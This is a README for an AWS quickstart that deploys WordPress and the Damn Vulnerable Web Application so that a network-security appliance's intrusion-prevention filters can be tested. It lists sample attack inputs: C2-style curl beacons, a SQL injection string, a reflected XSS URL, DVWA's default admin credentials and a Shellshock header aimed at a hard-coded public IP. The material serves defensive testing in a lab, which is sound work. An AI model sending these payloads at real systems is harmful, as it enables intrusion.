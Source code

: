 # quickstart-network-security-edge-deployment

*Note: This Quick Start is an adaptation of original [Wordpress High Availability By Bitnami](https://github.com/aws-quickstart/quickstart-bitnami-wordpress). The original quickstart has been modified to include DVWA instance in the deployment*

## Network Security Edge Deployment in WordPress High Availability DVWA environment on AWS Cloud

This Quick Start deploys WordPress High Availability by Bitnami, which includes WordPress and Amazon Aurora, in a highly available environment on AWS in about 40 minutes. It also deploys Damn Vulnerable Web Application (DVWA) in one of the public subnets. The purpose of this quickstart is to provide users a sample environment where they can deploy Network Security Virtual Appliance to protect their resources including web servers and databases etc.

After deploying this Quick Start, you will be able to:

- Deploy Network Security Virtual Appliance (NSVA) as an [Edge Protection](https://cloudone.trendmicro.com/docs/network-security/option1/)
- Configure your security profile in Cloud One Network Security console by distributing various Intrustion Prevention (IPS), Geo Filters to prevent your resources from inbound and outbound attack.
- Perform various inbound and outbound attacks to validate protection.
- Access logs of Network Security Virtual Applicance (NSVA) to verify which filters are getting triggered.

## Quick Start architecture for WordPress High Availability by Bitnami and DVWA on AWS

<img src="docs/edge_deployment.png" name="Network Security Edge Deployment">

## Deployment Steps

### 1. Deploy sample Wordpress environment with DVWA 
The Quick Start offers two deployment options:

- Deploying WordPress High Availability by Bitnami and DVWA into a new virtual private cloud (VPC) on AWS
- Deploying WordPress High Availability by Bitnami and DVWA into an existing VPC on AWS

For architectural details, best practices, step-by-step instructions, and customization options, see the 
[Bitnami quickstart deployment guide](https://fwd.aws/arqWN).

Before proceeding to deploy the Quick Start, please create a new SSH key pair for DVWA instance in the AWS region you will be deploying the Quick Start to. You may use the same key pair as the one you created for Bastion hosts if you don't want to create an additional keypair.

Below are the additional parameters for DVWA Configuration that the Quickstart uses:

#### DVWA Configuration

| Parameter label (name)                                   | Default        | Description        |
| :--------------------------------------------------------| :------------- | :----------------- |
| DVWA Instance Type (DVWAInstanceType)                    | t2.micro       | Amazon EC2 instance type for the DVWA instance            |
| Allowed DVWA External Access CIDR (DVWARemoteAccessCIDR) | 127.0.0.1/32   | The CIDR IP range that is permitted external SSH access to the bastion host instances. We recommend that you set this value to a trusted IP range |
| SSH KeyPair Name (DVWAKeyPairName)                       | Requires input | A public/private key pair, which allows you to connect securely to your instance after it launches. When you created an AWS account, this is the key pair you created in your preferred region |
### 2. Deploying Network Security to your environment

After the CloudFormation stack is successfully deployed, please use the deployment wizard in your CloudOne Network Security console to deploy Network Security Appliance in your environment. For detailed step-by-step instructions on deploying Network Security please check [Deploy Protection](https://cloudone.trendmicro.com/docs/network-security/add_cloud_accounts_appliances/) section

Once the Network Security Virtual Appliances have been succcessfully deployed, make sure they are visible in the CloudOne console and are reporting 'Active' status.

Your environment is now ready to inspect inbound and outbound traffic!

### 3. Enable CloudWatch logs for your Network Security Appliances

In order to see the block logs after doing various attacks, you will need to configure logs for each of your Network Security Appliance. For detailed step-by-step instructions on enabling CloudWatch logs please check [Enable CloudWatch logs](https://cloudone.trendmicro.com/docs/network-security/Manage_Network_Security_instances/#cloudwatch)

You will need to enable at least `ipsBlock` and `reputationBlock` to see logs from attacks listed below.

## Performing IPS, Geo and SQL Attacks

Before performing each attack, please perform the following steps:
1. Configure respective filter to Block and Log mode in Cloud One console. For detailed steps please check [Customize filter settings using the GUI](https://cloudone.trendmicro.com/docs/network-security/Customize_filter_settings_GUI/)
2. Distribute profile with filter overrides. For detailed steps please check [Distribute filter overrides to your network](https://cloudone.trendmicro.com/docs/network-security/Filter_overrides_GUI/)

### Outbound Attacks

Below is the list of outbound attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Filter ID  | Attack                                                          |
| :--------- | :-------------------------------------------------------------- |
| 25492      | `curl -H 'User-Agent: sdvntyer' http://www.example.com/api/v88` |
| 34738      | `curl 'http://www.example.com/includes/main.php?t=7d4580a3910c54d62b46f24c397c8d59&f=g2&type=cmd&id=D7CB4B6E5A21CA596DE0A7E10059C85E'`|
| 38451      | `curl -H 'User-Agent: ArcherGhost' -d 'post=eyJkYXRhIjogeyJkb21haW4iOiAiaHR0cDovL3RhcmdldDEyMy5jb20vYXNzZXRzL3ZlbmRvci9waHB1bml0L3BocHVuaXQvc3JjL1V0aWwvUEhQL3Nzc3AucGhwIiwgInNlcnZlciI6ICIxOTIuMTY4LjEwNy4xOSIsICJ0aXRsZSI6ICJqcSJ9LCAidHlwZSI6ICJzY2FubmVyIn0%3D' http://www.example.com/adeliap/404.php` |

### Geo Filter Attacks

In order to perform Geo Filter attacks, you need to first configure Geo Filters in Cloud One console by selecting a geographic region to block traffic. For detailed steps on how to configure Geo Filters, please check [Geolocation Filter](https://cloudone.trendmicro.com/docs/network-security/Geo_Location_filtering/). 

Below is the list of geofilter attacks you can perform from your Wordpress WebServer. You will need to SSH into the webserver instance via Bastion Host that is created as part of the Quick Start setup.

| Region | Attack |
| :----- | :----------------------- |
| China  | `curl https://baidu.com` |
| Russia | `curl https://mail.ru `  |

### SQL Attacks

SQL Attacks can be performed on DVWA server that is spun up as part of the Quick Start. In order to perform SQL Attacks, you wil need to first configure the application security level to "Low" in order for attacks to work properly. This can be done as follows:

1. Login to DVWA application from your browser. You can retrieve the DVWAPublicIP from the "Output" tab of your DVWA CloudFormation stack. The URL would be `http://<DVWAPublicIP>`
2. Login to Web Application using following default credentials
    Username: `admin`
    Password: `password`
3. Go to DVWA Security menu on the side navigation panel
4. Set Security Level to "Low" and hit Submit button

Below are some SQL attacks you can perform on your DVWA server

| Filter ID  | Attack                                                        |
| :--------- | :------------------------------------------------------------ |
| 3593      | 1. Go to SSL Injection menu on the side navigation panel<br />2. Enter `?id=a' UNION SELECT "text1","text2";-- -&Submit=Submit` in "User ID" text box and hit submit |
| 12365      | On your browser, enter `http://<DVWAPublicIP>/vulnerabilities/xss_d/?default=English%3Cscript%3Ealert(1)%3C/script%3E` |

### Inbound Attacks

Inbound attacks could be performed on any publically accessible webserver. In this case, we can perform a simple Shell Shock attack on our DVWA server

| Filter ID  | Attack                                                             |
| :--------- | :----------------------------------------------------------------- |
| 16798      | `curl -H "User-Agent: () { :; }; /bin/eject" http://20.44.162.152` |
